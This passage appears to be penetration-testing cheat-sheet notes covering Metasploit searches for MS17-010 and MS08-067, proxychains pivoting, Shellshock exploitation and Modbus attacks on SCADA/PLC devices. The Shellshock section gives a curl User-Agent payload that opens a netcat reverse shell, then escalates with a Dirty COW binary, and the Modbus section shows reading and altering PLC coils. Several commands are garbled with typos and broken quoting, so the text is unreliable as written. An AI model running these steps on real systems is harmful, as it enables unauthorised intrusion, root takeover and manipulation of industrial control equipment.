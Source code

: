 * `set Rhost and port`
* `search ms17-010`
* `search ms08_067`	
* Proxychains 
* `vi /etc/proxychains.conf` 
* `search socks`
* `use auxilary/socks4a`
* Stealth search
	* `proxychains nmap -sT ip_address.

##  <a name="8.6"></a>8.6 Exploiting shellshock
* `nmap -sS ip_address`
* `nmap -sV ip_address`
* `nikto -h ip_address -c all -o nikto.results.html | grep cookies(c=cgi.bin directories)`
* `web browser -> ipaddress/cgi-bin/printenv (shellshock) runnigscript using html`
* `nc -l -v -p 123`
* `curl -H ""User-Agent: {} {:;}; /bin/nc -e /bin/sh "ip_address" httpp://* ip_address/chi-bin/printenv`
* `so we can run python script`
* `python -c "import pty; pty.spawn('/bin/bash')"`
* `./etc/profile`
* `cd /tmp`
* `nc ip_address > cowroot32 (download dirty_cow)	`		
* `nc - l -v -nn -p 123`
* `cd /tmp `
* `chmod +x cowroot32`` 
* Put the python shell against.
* Run the  ./cowroot32 in python environment in victim machine
## <a name="8.7"></a>8.7 SCADA evasion.
* ` nmap -sP ip_address/range`
* To check the port
	* ` nmap -sS ip_address` 
* Check the port what is running on that port; just see the attack surface
	* ` nmap -sV -p 10000 ip_address` 
* ` nmap -sC ip_address
* Check enumeration using check.
* Most iot have default password.
## <a name="8.8"></a>8.8 ICS/SCADA modbus protocol
* Ping sweep
	* ` nmap -sP ip_address `
* `nmap -sS ip_address,second_ip`
* `Metasploit >> Search modbus`
* `see the modules`
* `set auuxilary/scanner/scada/modbusclient`
* see options and see the port
* `set UNIT_ID_TO 12`
* `set RHOSTS ip_address`
* `run`
	* manipulating the plc means we are manipulating the control
* `set UNIT_NUMBER 8`
* `set RHOSTS ip_address`
* We can turn on off and many things.
* `set ACTION READ_COILS`

